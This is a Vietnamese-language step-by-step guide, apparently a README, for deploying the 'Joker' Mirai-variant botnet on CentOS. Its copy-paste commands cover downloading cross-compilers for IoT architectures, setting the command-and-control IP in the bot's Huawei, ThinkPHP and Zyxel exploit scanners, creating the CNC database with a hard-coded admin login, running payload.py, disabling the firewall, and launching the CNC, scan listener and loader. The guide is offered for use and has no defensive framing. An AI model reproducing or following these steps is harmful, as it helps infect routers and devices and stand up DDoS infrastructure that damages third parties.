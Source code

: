- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
Cài đặt mọi thứ trên centos
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
Sao chép & Dán này: 
```
yum update -y
```
```
yum install epel-release -y
```
```
yum groupinstall "Development Tools" -y
```
```
yum install gmp-devel -y
```
```
ln -s /usr/lib64/libgmp.so.3  /usr/lib64/libgmp.so.10
```
```
yum install screen wget bzip2 gcc nano gcc-c++ electric-fence sudo git libc6-dev httpd xinetd tftpd tftp-server mysql mysql-server gcc glibc-static -y
```
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
Sao chép & Dán này: 

```
rm -rf /usr/local/go
```
```
wget https://dl.google.com/go/go1.10.3.linux-amd64.tar.gz
```
nếu lỗi không tải xuống thì cài đặt wget
```
sha256sum go1.10.3.linux-amd64.tar.gz
```
```
sudo tar -C /usr/local -xzf go1.10.3.linux-amd64.tar.gz
```
```
export PATH=$PATH:/usr/local/go/bin
```
```
source ~/.bash_profile
```
```
rm -rf go1.10.3.linux-amd64.tar.gz
```
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
Sao chép & Dán này: 
```
mkdir /etc/xcompile
cd /etc/xcompile
```
```
wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-i586.tar.bz2
wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-m68k.tar.bz2
wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-mips.tar.bz2
wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-mipsel.tar.bz2
wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-powerpc.tar.bz2
wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-sh4.tar.bz2
wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-sparc.tar.bz2
wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-armv4l.tar.bz2
wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-armv5l.tar.bz2
wget http://distro.ibiblio.org/slitaz/sources/packages/c/cross-compiler-armv6l.tar.bz2
wget https://landley.net/aboriginal/downloads/old/binaries/1.2.6/cross-compiler-armv7l.tar.bz2
```
```
tar -jxf cross-compiler-i586.tar.bz2; 
tar -jxf cross-compiler-m68k.tar.bz2
tar -jxf cross-compiler-mips.tar.bz2
tar -jxf cross-compiler-mipsel.tar.bz2
tar -jxf cross-compiler-powerpc.tar.bz2
tar -jxf cross-compiler-sh4.tar.bz2
tar -jxf cross-compiler-sparc.tar.bz2
tar -jxf cross-compiler-armv4l.tar.bz2
tar -jxf cross-compiler-armv5l.tar.bz2
tar -jxf cross-compiler-armv6l.tar.bz2
tar -jxf cross-compiler-armv7l.tar.bz2
```
```
rm -rf *.tar.bz2
mv cross-compiler-i586 i586
mv cross-compiler-m68k m68k
mv cross-compiler-mips mips
mv cross-compiler-mipsel mipsel
mv cross-compiler-powerpc powerpc
mv cross-compiler-sh4 sh4
mv cross-compiler-sparc sparc
mv cross-compiler-armv4l armv4l
mv cross-compiler-armv5l armv5l
mv cross-compiler-armv6l armv6l
mv cross-compiler-armv7l armv7l
```
```
cd /tmp
wget https://storage.googleapis.com/golang/go1.8.3.linux-amd64.tar.gz -q
tar -xzf go1.8.3.linux-amd64.tar.gz
mv go /usr/local/go
cd ~/
```
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
Thay đổi IP:

```/bot/huawei.c``` (dòng 271)

```/bot/thinkphp.c``` (dòng 277)

```/bot/zyxel_scanner.c``` (dòng 278)

```/bot/includes.h```  (4 địa điểm)

```/cnc/main.go``` 

```/dlr/main.c```

```/loader/src/main.c``` (Dòng 30, 31, Hai lần trên 42)

```/scanListen.go```
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
Cài đặt mysql tạo mật khẩu root

Sao chép & Dán này: 
```
service mysqld start; mysql_secure_installation
```
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
Đăng nhập vào mysql:

Sao chép & Dán này:  
```
mysql -u root -p
```
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
Sao chép & Dán này:
```
CREATE DATABASE Joker;
use Joker;
CREATE TABLE `history` (
  `id` int(10) unsigned NOT NULL AUTO_INCREMENT,
  `user_id` int(10) unsigned NOT NULL,
  `time_sent` int(10) unsigned NOT NULL,
  `duration` int(10) unsigned NOT NULL,
  `command` text NOT NULL,
  `max_bots` int(11) DEFAULT '-1',
  PRIMARY KEY (`id`),
  KEY `user_id` (`user_id`)
);
 
CREATE TABLE `users` (
  `id` int(10) unsigned NOT NULL AUTO_INCREMENT,
  `username` varchar(32) NOT NULL,
  `password` varchar(32) NOT NULL,
  `duration_limit` int(10) unsigned DEFAULT NULL,
  `cooldown` int(10) unsigned NOT NULL,
  `wrc` int(10) unsigned DEFAULT NULL,
  `last_paid` int(10) unsigned NOT NULL,
  `max_bots` int(11) DEFAULT '-1',
  `admin` int(10) unsigned DEFAULT '0',
  `intvl` int(10) unsigned DEFAULT '30',
  `api_key` text,
  PRIMARY KEY (`id`),
  KEY `username` (`username`)
);
 
CREATE TABLE `whitelist` (
  `id` int(10) unsigned NOT NULL AUTO_INCREMENT,
  `prefix` varchar(16) DEFAULT NULL,
  `netmask` tinyint(3) unsigned DEFAULT NULL,
  PRIMARY KEY (`id`),
  KEY `prefix` (`prefix`)
);
INSERT INTO users VALUES (NULL, 'clown', 'clown1337', 0, 0, 0, 0, -1, 1, 30, '');

CREATE TABLE `logins` (
  `id` int(11) NOT NULL,
  `username` varchar(32) NOT NULL,
  `action` varchar(32) NOT NULL,
  `ip` varchar(15) NOT NULL,
  `timestamp` timestamp NOT NULL DEFAULT CURRENT_TIMESTAMP
) ENGINE=InnoDB DEFAULT CHARSET=latin1;
exit;
```
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
Sao chép & Dán này: 
```
cd ~/; chmod 0777 * -R; sh build.sh
```
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
Sao chép & Dán này: 
```
python payload.py; service httpd restart 
```
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
```
iptables -F;service iptables stop 
```
```
service httpd restart  
```
```
service mysqld restart
```
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
```
nano /usr/include/bits/typesizes.h
```
cuộn xuống và chỉnh sửa 1024 thành 999999
SAU ĐÓ LƯU BẰNG: ctrl X rồi Y
Sao chép & Dán 
```
ulimit -n999999; ulimit -u999999; ulimit -e999999
```
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
```
cd ~/
screen -S cnc ./cnc
```
CTRL A D
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
```
cd loader/
screen -S rep ./scanListen 
```
CTRL A D
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
```
screen -S loader
./run.sh
```
CTRL A D
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
[Nguồn](https://github.com/USBBios/Joker-Mirai-Botnet-Source-V1)

